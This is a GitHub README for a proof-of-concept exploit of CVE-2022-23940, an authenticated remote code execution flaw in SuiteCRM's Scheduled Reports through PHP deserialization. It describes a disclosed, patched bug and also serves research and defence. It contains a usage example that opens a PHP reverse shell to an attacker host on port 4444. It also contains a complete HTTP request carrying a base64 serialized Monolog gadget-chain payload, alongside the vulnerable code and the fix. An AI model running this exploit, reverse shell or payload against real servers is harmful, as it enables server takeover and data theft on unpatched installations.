

# CVE-2022-23940

PoC for [CVE-2022-23940](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-23940) aka _SCRMBT-#187_ - Authenticated Remote Code Execution through Scheduled Reports in SuiteCRM (<= 7.12.4) and SuiteCRM-Core (<= 8.0.3).

This vulnerability was reported to SalesAgility and fixed in _SuiteCRM 7.12.5_ and _SuiteCRM Core 8.0.4_. In affected versions, any user with permission to create Scheduled Reports can obtain remote code execution and compromise the server. If you are using older versions of SuiteCRM, I highly advise you to update.

## Usage

**Installation**

1. Make sure to have a recent version of `python3` and `pip` installed.
2. Clone the repo: `git clone https://github.com/manuelz120/CVE-2022-23940.git`
3. Install the required libraries `pip3 install -r "requirements.txt"`
4. Enjoy :)

**Available options:**

```
(.venv) ➜  CVE-2022-23940 git:(main) ✗ ./exploit.py --help
Usage: exploit.py [OPTIONS]

Options:
  -h, --host TEXT        Root of SuiteCRM installation. Defaults to
                         http://localhost
  -u, --username TEXT    Username
  -p, --password TEXT    password
  -P, --payload TEXT     Shell command to be executed on target system
  -d, --is_core BOOLEAN  SuiteCRM Core (>= 8.0.0). Defaults to False
  --help                 Show this message and exit.

  https://github.com/manuelz120/CVE-2022-23940
```

**Example usage:**

[](https://asciinema.org/a/u9L20wIJlxlofQjJydDIYtwxu)

```bash
# Spawning a PHP Reverse shell to attacker-host on port 4444
./exploit.py -u user -p redacted --payload "php -r '\$sock=fsockopen(\"attacker-host\", 4444); exec(\"/bin/sh -i <&3 >&3 2>&3\");'"
```

## Writeup

Users who are able to create **Scheduled Reports** (can create entries in the `AOR_Scheduled_Reports` module) can execute arbitrary code on the server by abusing a PHP deserialization vulnerability.

The `AOR_Scheduled_Reports` module stores the email recipients of the report as serialized, base64 encoded strings in the database. When receiving the data for a scheduled report, the mentioned column gets deserialized. If attackers are able to insert arbitrary content into this column, they can achieve RCE through various PHP deserialization gadgets (in my tests I used the `Monolog/RCE2` from the [phpggc](https://github.com/ambionics/phpggc) tool).

The payload can be stored in the database using the legacy save call of the `AOR_Scheduled_Reports` module. The server incorrectly assumes that the `email_recipients` parameter is always an array. However, if a malicous client just passes the `email_recipients` as a string, the data will be stored in the database as it is. Once deserialized, the gadgets are executed on the server and we obtain remote code execution.

The vulnerable implementation of the `save` function in the `AOR_Scheduled_Reports` class. Further down, we can see that the `get_email_recipients` calls `unserialize` on the content that is stored in the database:

```php
// SuiteCRM-Core/public/legacy/modules/AOR_Scheduled_Reports/AOR_Scheduled_Reports.php

public function save($check_notify = false)
{
    if (isset($_POST['email_recipients']) && is_array($_POST['email_recipients'])) {
        $this->email_recipients = base64_encode(serialize($_POST['email_recipients']));
    }

    return parent::save($check_notify);
}

public function get_email_recipients()
{
    $params = unserialize(base64_decode($this->email_recipients));
    // ....

```

An example request to create such a malicious scheduled report looks like this (if you decode the value for `email_recipients`, you can see that it simply executes `touch /tmp/hacked`):

```
POST /index.php HTTP/1.1
Host: localhost
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Referer: http://localhost
content-type: application/x-www-form-urlencoded
Cookie: PHPSESSID=e7alkhdo7lrknc8a7l6v2rpanr; sugar_user_theme=SuiteP
Content-Length: 999

module=AOR_Scheduled_Reports&action=Save&name=test&status=active&schedule_type=monthly&email_recipients=YToyOntpOjc7TzozMjoiTW9ub2xvZ1xIYW5kbGVyXFN5c2xvZ1VkcEhhbmRsZXIiOjE6e3M6OToiACoAc29ja2V0IjtPOjI5OiJNb25vbG9nXEhhbmRsZXJcQnVmZmVySGFuZGxlciI6Nzp7czoxMDoiACoAaGFuZGxlciI7TzoyOToiTW9ub2xvZ1xIYW5kbGVyXEJ1ZmZlckhhbmRsZXIiOjc6e3M6MTA6IgAqAGhhbmRsZXIiO047czoxMzoiACoAYnVmZmVyU2l6ZSI7aTotMTtzOjk6IgAqAGJ1ZmZlciI7YToxOntpOjA7YToyOntpOjA7czoxNzoidG91Y2ggL3RtcC9oYWNrZWQiO3M6NToibGV2ZWwiO047fX1zOjg6IgAqAGxldmVsIjtOO3M6MTQ6IgAqAGluaXRpYWxpemVkIjtiOjE7czoxNDoiACoAYnVmZmVyTGltaXQiO2k6LTE7czoxMzoiACoAcHJvY2Vzc29ycyI7YToyOntpOjA7czo3OiJjdXJyZW50IjtpOjE7czo2OiJzeXN0ZW0iO319czoxMzoiACoAYnVmZmVyU2l6ZSI7aTotMTtzOjk6IgAqAGJ1ZmZlciI7YToxOntpOjA7YToyOntpOjA7czoxNzoidG91Y2ggL3RtcC9oYWNrZWQiO3M6NToibGV2ZWwiO047fX1zOjg6IgAqAGxldmVsIjtOO3M6MTQ6IgAqAGluaXRpYWxpemVkIjtiOjE7czoxNDoiACoAYnVmZmVyTGltaXQiO2k6LTE7czoxMzoiACoAcHJvY2Vzc29ycyI7YToyOntpOjA7czo3OiJjdXJyZW50IjtpOjE7czo2OiJzeXN0ZW0iO319fWk6NztpOjc7fQ%3D%3D%0A
```

## Implemented fix

If we look at the fixed code, we can see that the developers added a new `parseRecipients` function which parses and validates the data stored in the `email_recipients` parameter, before saving it into the database. Only if the value match the expected format the data gets stored. Therefore, the Deserialization RCE doesn't work anymore:

https://github.com/salesagility/SuiteCRM-Core/commit/63b969478d812d5ed937bf54fe5b174232e91a00#diff-0c100713e7e6c2c4c068cb4fe88342c6b0166cfcf06f57589120853a3f2ad2f2R205-R221



## Timeline

- 24/01/2022: Vulnerability discovered and reported to SuiteCRM
- 25/01/2022: Vulnerability confirmed by vendor (SalesAgility)
- 02/03/2022: Release of fixed versions ([SuiteCRM 7.12.5](https://docs.suitecrm.com/admin/releases/7.12.x/) and [SuiteCRM Core 8.0.4](https://docs.suitecrm.com/8.x/admin/releases/8.0/))

## Credits

- [phpggc](https://github.com/ambionics/phpggc)
